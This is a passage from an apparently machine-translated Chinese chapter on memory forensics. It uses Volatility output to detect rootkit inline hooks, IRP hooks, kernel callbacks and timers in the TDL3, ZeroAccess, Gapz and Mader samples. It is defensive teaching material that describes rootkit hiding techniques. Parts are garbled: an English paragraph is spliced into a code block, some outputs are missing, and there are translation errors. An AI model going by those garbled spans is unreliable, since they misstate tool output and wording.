> 关于Uroburos rootkit的详细分析，并了解rootkit用于触发挂钩中断处理程序的技术，请参阅以下博客文章:https://www.gdatasoftware.com/blog/2014/06/23953-analysis-of-uroburos-using-windbg。

#### 8.3 识别内联内核钩子
攻击者可以使用jmp指令修改现有内核驱动程序中的一个或多个内核函数，从而将执行流重定向到恶意代码，而不是替换SSDT中的指针(这使其易于识别)。正如本章前面提到的，你可以使用apihooks插件来检测内核空间中的内联挂接。通过指定-P参数，你可以告诉apihooks插件只扫描内核空间中的钩子。在下面这个TDL3 rootkit的例子中，apihook检测内核函数IofCallDriver和IofCompleteRequest中的钩子。被钩子连接的API函数被重定向到名称未知的恶意模块中的0xb878dfb2和0xb878e6bb地址(可能是因为它通过解除KLDR_DATA_TABLE_ENTRY结构的链接来隐藏):



```
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 apihooks -P Volatility Foundation Volatility Framework 2.6 ************************************************************************ Hook mode: Kernelmode
Hook type: Inline/Trampoline
Victim module: ntoskrnl.exe (0x804d7000 - 0x806cf580) Function: ntoskrnl.exe!IofCallDriver at 0x804ee120 Hook address: 0xb878dfb2
Hooking module: <unknown>
Disassembly(0):
0x804ee120 ff2500c25480 JMP DWORD [0x8054c200] 0x804ee126 cc INT 3
0x804ee127 cc INT 3
[REMOVED]
   ************************************************************************
   Hook mode: Kernelmode
   Hook type: Inline/Trampoline
   Victim module: ntoskrnl.exe (0x804d7000 - 0x806cf580)
Function: ntoskrnl.exe!IofCompleteRequest at 0x804ee1b0 Hook address: 0xb878e6bb
Hooking module: <unknown>
Disassembly(0):
0x804ee1b0 ff2504c25480 JMP DWORD [0x8054c204] 0x804ee1b6 cc INT 3
0x804ee1b7 cc INT 3
[REMOVED]
```
即使钩子模块的名称未知，仍然有可能检测到恶意的内核模块。在这种情况下，我们知道在恶意模块中API函数被重定向到以0xb87开头的地址，这意味着恶意模块必须位于以0xb87开头的某个地址。运行modules插件不会检测到该地址范围内的任何模块(因为它是隐藏的)，而modscan插件检测到一个名为TDSSserv的内核模块。Sys在基址0xb878c000加载，大小为0x11000。换句话说，内核模块TDSSserv的起始地址。Sys为0xb878c000，结束地址为0xb879d000 (0xb878c000+0x11000)。你可以清楚地看到钩子地址0xb878dfb2和0xb878e6bb在tdssserver.sys的地址范围内。至此，我们已经成功识别了恶意驱动程序。现在你可以将驱动程序转储到磁盘上进行进一步分析:
```
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 modules | grep -i 0xb878 

Volatility Foundation Volatility Framework 2.6
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 modscan | grep -i 0xb878 Volatility Foundation Volatility Framework 2.6
0x0000000009773c98 TDSSserv.sys 0xb878c000 0x11000 \systemroot\system32\drivers\TDSSserv.sys
```
#### 8.4 检测IRP函数钩子
rootkit可以修改主函数表(调度例程数组)中的条目，以指向恶意模块中的例程，而不是与内核API函数挂钩。例如，rootkit可以通过覆盖驱动主函数表中IRP_MJ_WRITE对应的地址来检查写入磁盘或网络的数据缓冲区。下面的图表说明了这个概念:


通常，IRP处理程序在它们自己的模块中运行驱动程序点。例如，与null的IRP_MJ_WRITE相关联的例程。Sys指向一个空地址。然而，有时一个驱动程序会将处理函数转发给另一个驱动程序。下面是磁盘驱动程序转发处理程序函数到CLASSPNP.SYS的示例(存储类设备驱动):

```
$ python vol.py -f win7_clean.vmem --profile=Win7SP1x64 driverirp -r disk Volatility Foundation Volatility Framework 2.6 --------------------------------------------------
DriverName: Disk
      DriverStart: 0xfffff88001962000
DriverSize: 0x16000
DriverStartIo: 0x0
   0 IRP_MJ_CREATE
   1 IRP_MJ_CREATE_NAMED_PIPE
2 IRP_MJ_CLOSE
3 IRP_MJ_READ
4 IRP_MJ_WRITE
5 IRP_MJ_QUERY_INFORMATION [REMOVED]
0xfffff88001979700 CLASSPNP.SYS
0xfffff8000286d65c ntoskrnl.exe
0xfffff88001979700 CLASSPNP.SYS 0xfffff88001979700 CLASSPNP.SYS 0xfffff88001979700 CLASSPNP.SYS 0xfffff8000286d65c ntoskrnl.exe

```
要检测IRP钩子，您可以关注指向另一个驱动程序的IRP处理程序函数，由于该驱动程序可以将IRP处理程序转发给另一个驱动程序，您需要进一步研究它以确认钩子。如果您正在实验室设置中分析rootkit，那么您可以从一个干净的内存映像中列出所有驱动程序的IRP函数，并将它们与受感染的内存映像中的IRP函数进行比较，以便进行任何修改。在下面的例子中，ZeroAccess rootkit钩子磁盘驱动的IRP函数，并将它们重定向到地址未知的恶意模块中的函数(因为模块是隐藏的):
```
DriverName: Disk
DriverStart: 0xba8f8000
DriverSize: 0x8e00
DriverStartIo: 0x0
0 IRP_MJ_CREATE
1 IRP_MJ_CREATE_NAMED_PIPE 2 IRP_MJ_CLOSE
3 IRP_MJ_READ
4 IRP_MJ_WRITE
5 IRP_MJ_QUERY_INFORMATION [REMOVED]
0xbabe2bde Unknown
0xbabe2bde Unknown
0xbabe2bde Unknown
0xbabe2bde Unknown
0xbabe2bde Unknown
0xbabe2bde Unknown
```

modscan的以下输出显示了与ZeroAccess相关的恶意驱动程序(具有一个可疑的名称)和它在内存中加载的base地址(可以用来将驱动程序转储到磁盘):
```

$ python vol.py -f zaccess_maxplus.vmem --profile=WinXPSP3x86 modscan | grep -i 0xbabe
Volatility Foundation Volatility Framework 2.6
0x0000000009aabf18 * 0xbabe0000 0x8000 \*
```

一些rootkit使用间接的IRP挂钩来避免怀疑。在下面的例子中，
Gapz Bootkit钩子null.sys的IRP_MJ_DEVICE_CONTROL。乍一看，似乎一切正常，因为IRP_MJ_DEVICE_CONTROL对应的IRP处理程序地址指向null.sys内。仔细一看，你会发现不符之处;在一个干净的系统上，IRP_MJ_DEVICE_CONTROL指向ntoskrnl.exe (nt!IopInvalidDeviceRequest)中的地址。在这里，它是指向到null.sys中的0x880ee040。在拆卸地址0x880ee040(使用volshell插件)，你可以看到跳转到0x8518cad9的地址，这是在null.sys范围之外:
```

$ python vol.py -f gapz.vmem --profile=Win7SP1x86 driverirp -r null Volatility Foundation Volatility Framework 2.6 --------------------------------------------------
DriverName: Null
   DriverStart: 0x880eb000
   DriverSize: 0x7000
   DriverStartIo: 0x0
      0 IRP_MJ_CREATE
      1 IRP_MJ_CREATE_NAMED_PIPE
      2 IRP_MJ_CLOSE
      3 IRP_MJ_READ
      4 IRP_MJ_WRITE
      5 IRP_MJ_QUERY_INFORMATION
[REMOVED]
13 IRP_MJ_FILE_SYSTEM_CONTROL
14 IRP_MJ_DEVICE_CONTROL
15 IRP_MJ_INTERNAL_DEVICE_CONTROL 0x828ee437 ntoskrnl.exe

$ python vol.py -f gapz.vmem --profile=Win7SP1x86 volshell [REMOVED]
>>> dis(0x880ee040)
0x880ee040 8bff MOV EDI, EDI
0x880ee042 e992ea09fd JMP 0x8518cad9 0x880ee047 6818e10e88 PUSH DWORD 0x880ee118
As discussed so far, detecting standard hooking techniques is fairly straightforward. For instance, you can look for signs such as SSDT entries not pointing to ntoskrnl.exe/win32k.sys or IRP functions pointing to somewhere else, or jump instructions at the start of the function. To avoid such detections, an attacker can implement hooks while keeping call table entries within the range, or place the jump instructions deep inside the code. To do this, they need to rely on patching the system modules or third-party drivers. The problem with patching system modules is that Windows Kernel Patch Protection (PatchGuard) prevents patching call tables (such as SSDT or IDT) and the core system modules on 64-bit systems. For these reasons, attackers either use techniques that rely on bypassing these protection mechanisms (such as installing a Bootkit/exploiting kernel-mode vulnerabilities) or they use supported ways (which also work on 64-bit systems) to execute their malicious code to blend in with other legitimate drivers and reduce the risk of detection. In the next section, we will look at some of the supported techniques used by the rootkits.
[ 465 ]
0x880ee07c Null.SYS
0x828ee437 ntoskrnl.exe
0x880ee07c Null.SYS
0x880ee07c Null.SYS
0x880ee07c Null.SYS
0x880ee07c Null.SYS
0x828ee437 ntoskrnl.exe
0x880ee040 Null.SYS
```



> 关于Gapz Bootkit所使用的隐形技术的详细信息，请阅读白皮书(https://www.welivesecurity.com/wp-content/uploads/2013/04/Gapz-Bootkit-whitepaper.pdf)题为“注意Gapz:有史以来分析过的最复杂的Bootkit”，由Eugene Rodionov和Aleksandr Matrosov撰写。

如上所述，检测标准挂钩技术相当简单。例如，您可以查找诸如SSDT条目没有指向ntoskrnl.exe/win32k.sys这样的迹象或IRP函数指向其他地方，或在函数开始处跳转指令。为了避免这种检测，攻击者可以实现钩子，同时将调用表条目保持在范围内，或者将跳转指令放置在代码深处。要做到这一点，他们需要依赖于给系统模块或第三方驱动程序打补丁。打补丁系统模块的问题是，Windows内核补丁保护(PatchGuard)阻止对64位系统上的调用表(如SSDT或IDT)和核心系统模块打补丁。由于这些原因,攻击者使用技术,依靠绕过这些保护机制(如安装Bootkit/利用内核漏洞)或者他们支持的方式(也在64位系统上工作)来执行他们的恶意代码融入其他合法司机和降低检测的风险。在下一节中，我们将研究rootkit所使用的一些受支持的技术。
### 9. 内核回调函数和计时器
Windows操作系统允许一个驱动程序注册一个回调例程，当一个特定的事件发生时，这个回调例程将被调用。例如,如果一个rootkit驱动希望监控的执行和终止所有进程上运行系统,它可以注册回调例程的过程事件通过调用内核函数PsSetCreateProcessNotifyRoutine PsSetCreateProcessNotifyRoutineEx或PsSetCreateProcessNotifyRoutineEx2。当进程事件发生(启动或退出)时，rootkit的回调例程将被调用，然后可以采取必要的操作，例如阻止进程启动。以同样的方式，rootkit驱动程序可以注册一个回调例程来接收通知，当映像(EXE或DLL)加载到内存时，当文件和注册表操作执行时，或当系统即将关闭时。换句话说，回调功能使rootkit驱动程序能够监视系统活动，并根据活动采取必要的操作。在以下链接中，您可以获得一些文档化和无文档化的内核函数列表，rootkit可能会使用这些函数来注册回调例程:https://www.codemachine.com/article_kernel_callback_functions.html。内核函数在Windows驱动程序工具包(WDK)中的不同头文件(ntddk.h、Wdm.h等)中定义。获取文档中内核函数的详细信息的最快方法是进行快速谷歌搜索，这应该会将您带到WDK在线文档中的适当链接。

回调的工作方式是一个特定的驱动程序创建一个回调对象，该对象是一个包含函数指针列表的结构。创建的回调对象会被通告，以便其他驱动程序使用它。然后，其他驱动程序可以向创建回调对象的驱动程序注册它们的回调例程(https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/callback-objects)。创建回调的驱动程序可以与注册回调的内核驱动程序相同，也可以不同。要查看系统范围内的回调例程，你可以使用回调volatile插件。在一个干净的Windows系统上，你通常会看到各种驱动程序安装了许多回调，这意味着回调输出中的所有条目不是恶意的;需要进一步分析才能从可疑内存映像中识别恶意驱动程序。

在下面的例子中，Mader rootkit执行了SSDT挂钩(在本章检测SSDT挂钩一节中讨论)，还安装了一个进程创建回调例程来监视系统上运行的所有进程的执行或终止。特别是，当进程事件发生时，恶意模块核心内地址为0xf66eb050的回调例程。系统调用。Module列指定了回调函数在其中实现的内核模块的名称。Details列给出安装回调的内核对象的名称或描述。识别出恶意驱动程序后，可以进一步调查它，或者将其转储到磁盘进行进一步分析(反汇编、反病毒扫描、字符串提取，等等)，如这里的moddump命令所示:

```
$ python vol.py -f mader.vmem --profile=WinXPSP3x86 callbacks
Volatility Foundation Volatility Framework 2.6
Type Callback Module Details --------------------------- ---------- ---------- ------- IoRegisterShutdownNotification 0xf9630c6a VIDEOPRT.SYS \Driver\VgaSave IoRegisterShutdownNotification 0xf9630c6a VIDEOPRT.SYS \Driver\vmx_svga IoRegisterShutdownNotification 0xf9630c6a VIDEOPRT.SYS \Driver\mnmdd IoRegisterShutdownNotification 0x805f5d66 ntoskrnl.exe \Driver\WMIxWDM
 IoRegisterFsRegistrationChange  0xf97c0876  sr.sys
GenericKernelCallback 0xf66eb050 core.sys PsSetCreateProcessNotifyRoutine 0xf66eb050 core.sys KeBugCheckCallbackListHead 0xf96e85ef NDIS.sys [REMOVED]
-
-
-
Ndis miniport
$ python vol.py -f mader.vmem --profile=WinXPSP3x86 modules | grep -i core Volatility Foundation Volatility Framework 2.6
0x81772bf8 core.sys 0xf66e9000 0x12000 \system32\drivers\core.sys
$ python vol.py -f mader.vmem --profile=WinXPSP3x86 moddump -b 0xf66e9000 - D dump/
Volatility Foundation Volatility Framework 2.6
Module Base
-----------
0x0f66e9000
 Module Name      Result
----------------- ------
 core.sys         OK: driver.f66e9000.sys
```

在下面的例子中，TDL3 rootkit安装进程回调和镜像加载回调通知。这允许rootkit监控进程事件，并在可执行映像(EXE、DLL或内核模块)映射到内存时获得通知。条目中的模块名称设置为UNKNOWN;这告诉你，回调例程存在于一个未知模块中，如果rootkit驱动程序试图通过解除KLDR_DATA_TABLE_ENTRY结构的链接来隐藏，或者如果一个rootkit正在运行一个孤儿线程(一个隐藏或从内核模块分离的线程)，就会发生这种情况。在这种情况下，UNKNOWN条目让你很容易发现可疑条目:
```
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 callbacks Volatility Foundation Volatility Framework 2.6
Type Callback Module Details ------------------------ ---------- -------- ------- [REMOVED]
   IoRegisterShutdownNotification  0x805cdef4  ntoskrnl.exe  \FileSystem\RAW
   IoRegisterShutdownNotification  0xba8b873a  MountMgr.sys  \Driver\MountMgr
 GenericKernelCallback           0xb878f108  UNKNOWN
IoRegisterFsRegistrationChange  0xba6e34b8  fltMgr.sys
GenericKernelCallback 0xb878e8e9 UNKNOWN PsSetLoadImageNotifyRoutine 0xb878f108 UNKNOWN PsSetCreateProcessNotifyRoutine 0xb878e8e9 UNKNOWN KeBugCheckCallbackListHead 0xba5f45ef NDIS.sys [REMOVED]
-
-
- - -
Ndis miniport

```

即使模块名是UNKNOWN，根据回调例程地址，我们可以推断恶意模块应该位于地址为0xb878的内存区域的某个地方。从模块插件的输出中，您可以看到模块本身已经解除了链接，但是modscan插件能够检测到加载在0xb878c000且大小为0x11000的内核模块。显然，所有回调例程地址都在这个模块的范围内。现在已经知道了内核模块的base地址，你可以使用moddump插件来转储它，以便进一步分析:
```
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 modules | grep -i 0xb878 Volatility Foundation Volatility Framework 2.6
$ python vol.py -f tdl3.vmem --profile=WinXPSP3x86 modscan | grep -i 0xb878 Volatility Foundation Volatility Framework 2.6
0x9773c98 TDSSserv.sys 0xb878c000 0x11000 \system32\drivers\TDSSserv.sys
```
像回调一样，rootkit驱动程序可以创建一个计时器，并在指定的时间经过时得到通知。rootkit驱动程序可以使用此功能来定期执行操作。它的工作方式是，rootkit创建一个计时器，并提供一个名为DPC(延迟过程调用)的回调例程，它将在计时器过期时被调用。当回调例程被调用时，rootkit可以执行恶意操作。换句话说，计时器是rootkit执行恶意代码的另一种方式。关于内核计时器如何工作的详细信息，请参考以下Microsoft文档:https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/timer-objects-and-dpcs。


要列出内核计时器，可以使用timersVolatility插件。需要注意的一点是，计时器本身并不是恶意的;这是Windows的功能，所以在一个干净的系统上，你会看到一些合法的驱动程序安装了计时器。与回调函数一样，可能需要进一步分析来识别恶意模块。由于大多数rootkit试图隐藏它们的驱动程序，因此，会创建明显的工件，可以帮助您快速识别恶意模块。在下面的例子中，ZeroAccess rootkit安装了一个6000毫秒的计时器。当这段时间过去时，将调用UNKNOWN模块中地址0x814f9db0的例程。Module列中的UNKNOWN告诉我们模块可能是隐藏的，但是例程地址指向恶意代码存在的内存范围:


```
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 timers
```
除了计时器，ZeroAccess还安装回调来监视注册表操作。同样，回调例程地址指向相同的内存范围(从0x814f开始):


```
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 callbacks
```
尝试使用modules, modscan，和driverscan插件来查找UNKNOWN模块不会返回任何结果:
```
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 modules | grep -i 0x814f
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 modscan | grep -i 0x814f
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 driverscan | grep -i 0x814f
```
检查驱动器列表发现了可疑的条目，其中基址和大小被归零(这是不正常的，可能是一个绕过的伎俩)。将基址归零解释了为什么模块、modscan和驱动程序不返回任何结果。输出还显示恶意驱动程序的名称仅由数字组成，这增加了怀疑:
```
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 driverscan
```

通过清空基地地址，rootkit使得司法分析人员很难确定内核模块的起始地址，这也阻止了我们转储恶意模块。我们仍然知道恶意代码的所在位置(以0x814f开头的地址)。一个引人注目的问题是，我们如何使用这些信息来确定基址?一种方法是取其中一个地址并减去一定数量的字节(反向)，直到找到MZ签名，但这种方法的问题是不容易确定要减去多少字节。最快的方法是使用yarascan插件，这个插件允许你在内存中扫描一个模式(字符串，十六进制字节，或正则表达式)。因为我们试图找到位于内核内存中以地址0x814f开始的模块，所以我们可以使用带有-K的yarascan(它只扫描内核内存)来寻找MZ签名。从输出中，可以看到地址为0x814f1b80的可执行文件。您可以将此指定为使用moddump插件将恶意模块转储到磁盘的基本地址。转储模块的大小大约为53.2 KB，即十六进制的0xd000字节。换句话说，模块从地址0x814f1b80开始，到地址0x814feb80结束。所有回调地址都在这个模块的地址范围内:

```
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 yarascan -K -Y "MZ" | grep -i 0x814f
Volatility Foundation Volatility Framework 2.6
0x814f1b80 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 MZ.............. 0x814f1b90 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@....... 0x814f1ba0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x814f1bb0 00 00 00 00 00 00 00 00 00 00 00 00 d0 00 00 00 ................ 0x814f1bc0 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 ........!..L.!Th 0x814f1bd0 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f is.program.canno 0x814f1be0 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 20 t.be.run.in.DOS. 0x814f1bf0 6d 6f 64 65 2e 0d 0d 0a 24 00 00 00 00 00 00 00 mode....$.......
$ python vol.py -f zaccess1.vmem --profile=WinXPSP3x86 moddump -b 0x814f1b80 -D dump/
Module Base Module Name Result
----------- -------------------- ------
0x0814f1b80 UNKNOWN OK: driver.814f1b80.sys
$ ls -al
[REMOVED]
-rw-r--r-- 1 ubuntu ubuntu 53248 Jun 9 15:25 driver.814f1b80.sys
```
为了确认转储的模块是恶意的，将其提交给VirusTotal。反病毒软件供应商的结果证实，它是ZeroAccess Rootkit(也被称为Sirefef):



### 总结
恶意软件的作者使用各种先进的技术来安装他们的内核驱动程序，并绕过Windows安全机制。一旦安装了内核驱动程序，它就可以修改系统组件或第三方驱动程序来绕过、转移和转移司法分析。在本章中，你看了一些最常见的rootkit技术，我们看到了如何使用内存取证来检测这样的技术。内存取证是一种强大的技术，使用它作为恶意软件分析工作的一部分将极大地帮助您了解攻击者的战术。恶意软件的作者经常想出新的方法来隐藏他们的恶意组件，所以仅仅知道如何使用这些工具是不够的;理解底层概念对于识别攻击者绕过取证工具的努力是很重要的。